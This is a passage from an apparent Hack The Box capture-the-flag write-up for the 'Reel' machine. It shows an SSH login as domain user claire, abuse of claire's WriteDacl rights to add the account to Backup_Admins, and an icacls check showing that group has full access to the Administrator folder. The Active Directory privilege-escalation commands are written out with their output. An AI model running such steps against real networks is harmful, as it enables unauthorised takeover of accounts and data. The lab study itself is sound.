 Let's sse if we can get an SSH access with **claire** domain account.

```bash
$ ssh claire@10.129.147.8
claire@10.129.147.8's password: 

Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.     

claire@REEL C:\Users\claire>
```

Yep! Now, given **claire** has *WriteDacl* privileges over **Backup_Admins**, we can add our account to this group.

```bash
claire@REEL C:\Users\claire>net group backup_admins claire /add                                                                  
The command completed successfully.                                                                                             

claire@REEL C:\Users\claire> net group backup_admins                                                                              
Group name     Backup_Admins                                                                                                    
Comment                                                                                                                         

Members                                                                                                                         

-------------------------------------------------------------------------------                                                 
claire                   ranj                                                                                                   
The command completed successfully.                 
```

Done and done.

## Getting the admin password

After some unsuccessful escalation paths, we found something interesting. Being a member of the **Backup_Admins** group gives us a full (F) access over the *C:\Users\Administrator* folder.

Note that we used the [icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) command to display discretionary access control lists (DACLs) on the specified folder.

```bash
claire@REEL C:\Users>icacls Administrator
Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)
              HTB\Backup_Admins:(OI)(CI)(F)
              HTB\Administrator:(OI)(CI)(F)
              BUILTIN\Administrators:(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```
